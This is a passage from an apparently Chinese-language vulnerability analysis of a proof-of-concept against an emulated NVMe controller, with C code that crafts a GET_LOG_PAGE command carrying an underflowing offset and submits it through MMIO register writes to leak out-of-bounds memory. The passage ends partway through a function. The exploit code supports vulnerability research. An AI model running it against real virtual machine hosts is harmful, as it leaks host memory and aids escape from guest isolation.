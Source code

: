 #### POC 分析

```c
    uint64_t *leak_buf = mmap(NULL, PAGE_SIZE, PROT_READ | PROT_WRITE, MAP_ANONYMOUS | MAP_SHARED, -1, 0);
    mlock(leak_buf, PAGE_SIZE);
    memset(leak_buf, 0, PAGE_SIZE);
    void *leak_buf_phys_addr = virt_to_phys(leak_buf);

    NvmeCqe *cqes = mmap(NULL, PAGE_SIZE, PROT_READ | PROT_WRITE, MAP_ANONYMOUS | MAP_SHARED, -1, 0);
    mlock(cqes, PAGE_SIZE);
    memset(cqes, 0, PAGE_SIZE);
    void *cqes_phys_addr = virt_to_phys(cqes);

    NvmeCmd *cmds = mmap(NULL, PAGE_SIZE, PROT_READ | PROT_WRITE, MAP_ANONYMOUS | MAP_SHARED, -1, 0);
    mlock(cmds, PAGE_SIZE);
    memset(cmds, 0, PAGE_SIZE);
    void *cmds_phys_addr = virt_to_phys(cmds);

    // [0] 填充命令
    cmds[0].opcode = 2;                               /* cmd->opcode, NVME_ADM_CMD_GET_LOG_PAGE, nvme_get_log() */
    cmds[0].dptr.prp1 = (uint64_t)leak_buf_phys_addr; /* prp1, leak_buf */
    cmds[0].cdw10 = 4 + (0x1 << 16);                  /* buf_len =  (0x1+1) << 2 = 8, lid = 4 NVME_LOG_CHANGED_NSLIST, nvme_changed_nslist() */
    uint64_t off = 0x1010;                   /* underflow */
    cmds[0].cdw12 = (uint32_t)off;
    cmds[0].cdw13 = (uint32_t)(off >> 32);
    // [1] 提交命令
    nvme_reset_submit_commands(cqes_phys_addr, cmds_phys_addr, 1);

```

主要逻辑：

1. 通过 mmap 申请两块内存 leak\_buf 和 cmds，分别用于存放 nvme 控制器的 响应数据 和 请求命令数据
2. 往 cmds 里面填充命令
    
    
    - dptr.prp1 是 dma 的目的地址，nvme\_changed\_nslist 会通过 nvme\_c2h 把 nslist 的数据写到 `leak_buf_phys_addr`​ .
    - cdw10 由 buf\_len 和 lid 两个字段组合而成，分别用于表示拷贝内存的大小和请求的子类型.
    - cdw12 和 cdw13 用于表示 **off**，**值为 0x1010，用于越界**.
3. 通过 nvme\_reset\_submit\_commands 提交请求.

最后在 nvme\_init\_sq 中构建的 NvmeCQueue 结构体的成员结构如下：  
![image.png](https://shs3.b.qianxin.com/attack_forum/2023/03/attach-0780fec74848a8cff15fd6fb42473b2e4d1c367f.png)  
nvme\_reset\_submit\_commands 的代码

```c
void nvme_reset_submit_commands(void *cqes_phys_addr, void *cmds_phys_addr, uint32_t tail)
{
    mmio_write_l_fn(nvme_mmio_region, NVME_OFFSET_ACQ, (uint32_t)(uint64_t)cqes_phys_addr); /* cq dma_addr */
    mmio_write_l_fn(nvme_mmio_region, NVME_OFFSET_ACQ + 4, (uint32_t)((uint64_t)cqes_phys_addr >> 32));
    mmio_write_l_fn(nvme_mmio_region, NVME_OFFSET_ASQ, (uint32_t)(uint64_t)cmds_phys_addr); /* sq dma_addr */
    mmio_write_l_fn(nvme_mmio_region, NVME_OFFSET_ASQ + 4, (uint32_t)((uint64_t)cmds_phys_addr >> 32));
    mmio_write_l_fn(nvme_mmio_region, NVME_OFFSET_AQA, 0x200020);                             /* nvme_init_cq nvme_init_sq size = 32 + 1 */
    mmio_write_l_fn(nvme_mmio_region, NVME_OFFSET_CC, (uint32_t)0);                           /* reset nvme, nvme_ctrl_reset() */
```